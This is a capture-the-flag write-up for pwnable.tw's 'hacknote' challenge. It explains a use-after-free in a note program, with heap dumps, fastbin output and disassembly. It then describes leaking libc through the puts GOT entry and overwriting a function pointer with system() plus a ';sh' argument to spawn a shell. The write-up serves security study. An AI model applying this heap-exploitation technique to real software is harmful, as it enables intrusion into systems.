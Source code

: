 # hacknote

> Challenge Link: [hacknote](https://pwnable.tw/challenge/#5)
>
> Category: pwn

A good Hacker should always take good notes!

`nc chall.pwnable.tw 10102`

[hacknote](https://pwnable.tw/static/chall/hacknote)

[libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

## Observation

This challenge is a Hacknote. There are 4 features (actually 3) - **Add, Delete, and Print**.

```
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :1
Note size :20
Content :abcd 
Success !
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :3
Index :0
abcd

----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :2
Index :0
Success
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :4
```

I wrote another challenge in `csie.ctf.tw` also called "hacknote" before, and both of these look similar.

In hacknote (csie), this program `malloc` when add and `free` when delete. However, **it didn't set the pointer to `NULL` **. Therefore, we can use add to write something, and use print to run.

What do I mean ? Let's try !

### Experiment

#### Add two notes

I add two notes with size 32 and contents are "aaaa" and "bbbb".

Here is the value on the heap.

```
0x804b000:	0x00000000	0x00000011	  0x0804862b	0x0804b018
0x804b010:	0x00000000	0x00000029	  0x61616161	0x0000000a 	<======= note "aaaa"
0x804b020:	0x00000000	0x00000000	  0x00000000	0x00000000
									-----------------------------
0x804b030:	0x00000000	0x00000000	| 0x00000000	0x00000011
-------------------------------------
0x804b040:	0x0804862b	0x0804b050	  0x00000000	0x00000029
0x804b050:	0x62626262	0x0000000a	  0x00000000	0x00000000 	<======= note "bbbb"
0x804b060:	0x00000000	0x00000000	  0x00000000	0x00000000
```

Let's focus on note "aaaa".

```
           ------------------------------------------------------
0x804b000: | 0x00000000	0x00000011	  0x0804862b	0x0804b018	| <======= struct note
   		   ---------------------------------------------|--------
   		   												|
   		   									-------------
   		   									|
           ---------------------------------v--------------------
0x804b010: | 0x00000000	0x00000029	  0x61616161	0x0000000a 	|
0x804b020: | 0x00000000	0x00000000	  0x00000000	0x00000000	| <======= content
0x804b030: | 0x00000000	0x00000000								|
   		   ------------------------------------------------------
```

The first 8 bytes of each blocks are headers of  heap.

- struct note is 0x10

- `0x0804862b`is print function

  ```
   804862b:       55                      push   ebp
   804862c:       89 e5                   mov    ebp,esp
   804862e:       83 ec 08                sub    esp,0x8
   8048631:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
   8048634:       8b 40 04                mov    eax,DWORD PTR [eax+0x4]
   8048637:       83 ec 0c                sub    esp,0xc
   804863a:       50                      push   eax
   804863b:       e8 90 fe ff ff          call   80484d0 <puts@plt>
   8048640:       83 c4 10                add    esp,0x10
   8048643:       90                      nop
   8048644:       c9                      leave  
   8048645:       c3                      ret
  ```

#### Delete

I delete note "aaaa" (index 0) first, then I delete note "bbbb" (index 1).

Here is the fastbin in heap.

```
(0x10)     fastbin[0]: 0x804b038 --> 0x804b000 --> 0x0
(0x18)     fastbin[1]: 0x0
(0x20)     fastbin[2]: 0x0
(0x28)     fastbin[3]: 0x804b048 --> 0x804b010 --> 0x0
(0x30)     fastbin[4]: 0x0
(0x38)     fastbin[5]: 0x0
(0x40)     fastbin[6]: 0x0
                  top: 0x804b070 (size : 0x20f90) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

#### Reallocate

I add a new note with size **0x8** (0x8 + header = 0x10). Note 2 is allocated to 0x804b038, and it's content is 0x804b000 (original note 0).

```
			  ---------------------------------------------------------------
0x804b000:    | 0x00000000      0x00000011      0x61616161      0x0804b00a	| <== content
 			  ---------------------------------------------------------------
0x804b010:      0x00000000      0x00000029      0x00000000      0x0000000a
0x804b020:      0x00000000      0x00000000      0x00000000      0x00000000
											 --------------------------------
0x804b030:      0x00000000      0x00000000   |  0x00000000      0x00000011	|
			  -------------------------------- 								| <== header
0x804b040:    | 0x0804862b      0x0804b008 									|
			  ---------------------------------------------------------------
```

## Solution

Accroding to the experiment above, we can exploit it by reusing note.

### Leak libc

First, we should leak the base of libc in order to using system().

I choose `puts_got = 0x804a024`to leak.

Because of the size of struct is 0x10, we can only use only 0x8 as content size (0x8 + header = 0x10). Thus, I put `printNote function` and `puts_got`in content to leak base.

After adding note 2, note 0 is like this:

```c
struct note {
	printNote(); 		// 0x0804862b
  	puts_got; 			// 0x804a024
}
```

When we print note 0, it will call printNote() then print puts_got.

### System()

Before printing note, this program send address of note as parameter to function.

![](https://i.imgur.com/dYKZzfa.png)

```
											-----------------
0x804b000:      0x00000000      0x00000011  |   0x0804862b  |    0x0804b018
											-----------------
0x804b010:      0x00000000      0x00000029      0x61616161      0x0000000a
```

What if this function is system() ?? Value from `0x804b008`would be considered as string.

Therefore, we can put something like `;sh` in content. Because string before `;` can not be executed, we have to add a `;` to split it. 

After printing (system), a shell will prompt !!